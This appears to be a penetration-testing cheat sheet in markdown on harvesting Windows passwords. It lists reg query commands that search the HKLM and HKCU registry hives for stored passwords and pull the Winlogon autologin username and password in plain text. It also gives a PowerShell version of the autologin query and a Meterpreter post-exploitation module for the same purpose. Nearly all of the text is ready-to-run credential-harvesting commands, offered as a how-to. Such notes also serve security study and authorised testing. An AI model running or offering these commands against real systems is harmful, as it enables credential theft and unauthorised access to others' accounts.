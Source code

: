 # Passwords

## 01 - Manual

### 1.1 - Command Prompt

Using a registry to query the plain text password in the key (note these two methods may not work so use the **Auditing Tools** instead)

1. **Method 1:** Registry for key names and passwords (This is useless since it prints out more information)

`C:\> reg query hklm /f "password" /t REG_SZ /s /k`

`C:\> reg query hkcu /f "password" /t REG_SZ /s /k`

2. **Method 2:** Windows Autologin (This is a better option to harvest the credentials)

`C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon"`

`C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`

### 1.2 - Powershell

`PS C:\> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | Select-Object "Default*"`


## 02 - Metasploit

`meterpreter > run post/windows/gather/credentials/windows_autologin`